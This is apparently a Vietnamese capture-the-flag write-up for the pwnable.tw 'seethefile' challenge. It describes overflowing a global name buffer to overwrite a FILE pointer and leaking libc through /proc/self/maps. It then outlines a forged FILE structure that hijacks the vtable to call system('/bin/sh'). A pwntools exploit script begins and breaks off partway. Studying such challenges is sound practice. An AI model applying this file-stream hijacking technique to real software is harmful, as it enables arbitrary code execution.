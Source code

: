 ![image](https://hackmd.io/_uploads/SJLohkne1l.png)


option5  sẽ là nhập vào 1 biến global (name) và sẽ có BOF ở đây 
![image](https://hackmd.io/_uploads/Hkgkayhxye.png)

ta có thể ghi đè được con trỏ file và ở đây có các hàm fclose , fread các kiểu nên ý tưởng sẽ là exploit FSOP 

![image](https://hackmd.io/_uploads/BkGxay3lJl.png)


và ta cũng thấy được phiên bản libc  là 2.23 -> vtable không check , ta có thể ghi đè vtable tới system hoặc là cgi đó 


![image](https://hackmd.io/_uploads/SJtwpk3ekl.png)






exploit :

- đầu tiên ta cần phải leak libc trước , muốn leak libc ta sẽ dùng /proc/self/maps 

giải thích về nó : 

![image](https://hackmd.io/_uploads/HJ6k012xJl.png)

vậy đầu tiên ta sẽ cần mở file và read 2 lần -> sau đó write là sẽ có địa chỉ libc

bước tiếp theo là overwrite vtable thôi 



payload của ta sẽ như sau : 

20 bytes to overwrite name 

overwrite fp bằng fclose 

padding đến fclose 

cấu trúc của fclose sẽ như sau : 

set flags thành chuỗi /bin/sh   

set ._lock  thành địa chỉ chứa giá trị null

set vtable thành địa chỉ chứa địa chỉ system 



script : 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
p = remote('chall.pwnable.tw', 10200)
def open(data):
    p.sendlineafter(b'choice :',b'1')
    p.sendlineafter(b'see :',data)

def read():
    p.sendlineafter(b'choice :',b'2')

def write():
```